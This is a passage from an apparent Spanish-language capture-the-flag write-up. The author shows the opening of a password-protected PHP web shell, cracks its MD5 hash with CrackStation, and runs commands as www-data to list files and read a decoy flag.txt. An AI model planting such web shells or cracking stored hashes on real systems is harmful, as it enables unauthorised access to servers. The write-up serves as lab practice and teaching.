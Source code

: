 En este punto no recuerdo la contraseña que le he añadido a la WebShell asi que procedo a visualizar el código:
```php
<?php error_reporting (0);?>
<?php 
session_start();
$password = "0f359740bd1cda994f8b55330c86d845";
//Admin1234
if($_POST['password']){
[...]
```
copiamos el hash md5 y accedemos a [CrackStation](https://crackstation.net/)
![[Pasted image 20250126034146.png]]
Como puse una contraseña genérica que estaba en el rockyou.txt pues esta filtrada y desde crackstation podemos visualizarla en texto plano. Así pues accedemos al panel con la contraseña `p@ssw0rd`.

![[Pasted image 20250126034417.png]]
Esta webshell esta pensada para que sin hacer nada ya te este dando información del Sistema Operativo, del usuario de sistema, del hostname e incluso del path donde nos situamos.
Así pues podemos visualizar que en la propia carpeta hay archivos que pese a estar subidos no son visibles a través de la pagina **UPLOADS**.

Así pues ya podemos ejecutar comandos aunque no estamos con ningun usuario local del sistema sino el usuario que ejecuta el servicio apache2 (www-data).
```java
www-data@861ac52240d6:…/html/uploads# ls -la
total 332
drwxr-xr-x 1 www-data www-data     92 Jan 26 03:34 .
drwxr-xr-x 1 www-data www-data    118 Dec 26 04:03 ..
-rwxr-xr-x 1 www-data www-data  21752 Dec 20 13:48 .shell.php
-rwxr-xr-x 1 www-data www-data   9879 Dec 20 13:48 index.php
-rwxr-xr-x 1 www-data www-data 271755 Dec 22 19:52 memaso.png
-rw-r--r-- 1 www-data www-data  20974 Jan 26 03:34 shell.php
-rwxr-xr-x 1 www-data www-data     25 Dec 20 13:48 test.txt

www-data@861ac52240d6:…/html/uploads# cd ..
www-data@861ac52240d6:…/www/html# ls
flag.txt
index.php
login.php
logout.php
up.php
upload.php
uploads

www-data@861ac52240d6:…/www/html# cat flag.txt
NOT A FLAG :) I'm So S0rRy
```
Hemos retrocedido el path a la raíz de la web y podemos visualizar un archivo que se llama ***flag.txt***
pero no contiene ninguna flag
